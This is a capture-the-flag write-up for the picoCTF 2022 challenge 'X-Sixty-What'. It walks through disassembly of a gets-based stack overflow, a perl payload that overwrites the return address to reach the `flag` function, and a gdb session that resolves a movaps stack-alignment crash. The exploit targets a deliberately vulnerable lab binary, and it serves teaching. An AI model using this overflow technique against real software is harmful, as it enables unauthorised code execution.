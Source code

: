 # X-Sixty-What

Inspecting the `vuln` function, and adding some annotations around offsets:

```
$ objdump -d -Mintel vuln | sed -n '/^[a-f0-9]\+ <vuln>/,/^$/p'
00000000004012b2 <vuln>:
  4012b2:	f3 0f 1e fa          	endbr64 
  4012b6:	55                   	push   rbp      <--- -0x8
  4012b7:	48 89 e5             	mov    rbp,rsp
  4012ba:	48 83 ec 40          	sub    rsp,0x40 <--- 0x40
  4012be:	48 8d 45 c0          	lea    rax,[rbp-0x40]
  4012c2:	48 89 c7             	mov    rdi,rax
  4012c5:	b8 00 00 00 00       	mov    eax,0x0
  4012ca:	e8 31 fe ff ff       	call   401100 <gets@plt>
  4012cf:	90                   	nop
  4012d0:	c9                   	leave  
  4012d1:	c3                   	ret  
```

We see after filling `0x48` bytes from our buffer we can stomp the return
address. Further glancing at the start of the `flag` function

```console
$ objdump -d -Mintel vuln | sed -n '/^[a-f0-9]\+ <flag>/,/^$/p' | head 
0000000000401236 <flag>:
  401236:	f3 0f 1e fa          	endbr64 
  40123a:	55                   	push   rbp
  40123b:	48 89 e5             	mov    rbp,rsp
  40123e:	48 83 ec 50          	sub    rsp,0x50
  401242:	48 8d 35 bf 0d 00 00 	lea    rsi,[rip+0xdbf]        # 402008 <_IO_stdin_used+0x8>
  401249:	48 8d 3d ba 0d 00 00 	lea    rdi,[rip+0xdba]        # 40200a <_IO_stdin_used+0xa>
  401250:	e8 db fe ff ff       	call   401130 <fopen@plt>
  401255:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
  401259:	48 83 7d f8 00       	cmp    QWORD PTR [rbp-0x8],0x0
```

Then trying the address `0x401236` (using little endian):

````
$ perl -E 'say("A" x 0x48 . "\x36\x12\x40\x00\x00\x00\x00\x00")' | ./vuln 
Welcome to 64-bit. Give me a string that gets you the flag: 
Segmentation fault (core dumped)
```

We get an unexpected segfault, let's debug with `gdb`:

```
$ gdb -q ./vuln 
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
(gdb) run < <(perl -E 'say("A" x 0x48 . "\x36\x12\x40")')
Starting program: /home/mjh/src/writeups/picoctf2022/x-sixty-what/vuln < <(perl -E 'say("A" x 0x48 . "\x36\x12\x40\x00\x00\x00\x00\x00")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Welcome to 64-bit. Give me a string that gets you the flag: 

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7e026f3 in ?? () from /usr/lib/libc.so.6
(gdb) x/i $rip
=> 0x7ffff7e026f3:	movaps XMMWORD PTR [rsp+0x40],xmm0
(gdb) p/x $rsp+0x40
$1 = 0x7fffffffa4a8
```

A quick search online informs us that the operand to `movaps` must be aligned
on a 16 byte boundary, but this is not the case for `0x7fffffffa4a8`.
Thankfully, there is a hint to help us around this: 

> Jump to the second instruction (the one after the first push) in the flag
> function, if you're getting mysterious segmentation faults.

Indeed, using the second address allows our exploit to be executed as desired.
